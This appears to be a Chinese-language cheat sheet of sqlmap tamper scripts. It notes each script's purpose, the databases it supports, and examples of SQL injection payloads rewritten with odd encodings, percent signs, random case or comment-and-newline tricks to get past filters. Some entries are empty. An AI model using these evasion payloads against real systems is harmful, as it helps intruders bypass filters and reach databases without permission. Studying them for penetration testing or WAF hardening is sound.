 multiplespaces.py
 >>> random.seed(0)
    >>> tamper('1 UNION SELECT foobar')
    '1     UNION     SELECT     foobar'


overlongutf8.py
功能： 转换给定的payload当中的所有字符
平台：All
举例：SELECT FIELD FROM TABLE WHERE 2>1 ==> SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1


overlongutf8more.py

percentage.py

功能：用百分号来绕过关键字过滤，在关键字的每个字母前面都加一个(%)

平台：Mssql 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0

举例：SELECT FIELD FROM TABLE
 ==> %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

plus2concat.py

randomcase.py
功能：将 payload 随机大小写
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：INSERT ==> InseRt

space2morecomment.py

space2morehash.py
功能：用多个[注释符(#)+一个随机字符串+一个换行符]替换控制符

平台：MySQL >= 5.1.13

举例：union select 1,2--+ ==> union %23 HSHjsJh %0A select %23 HhjHSJ %0A%23 HJHJhj %0A 1,2--+

space2mssqlblank.py
功能：用随机的空白符替换payload中的空格

blanks = ('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')

平台：Mssql 2000,2005

举例：SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users

space2mssqlhash.py
功能：用[字符# +一个换行符]替换payload中的空格
平台：MSSQL、MySQL
举例：union select 1,2--+ ==> union%23%0Aselect%23%0A1,2--+




space2mysqlblank.py
>>> tamper('SELECT id FROM users')
    'SELECT%A0id%0CFROM%0Dusers'
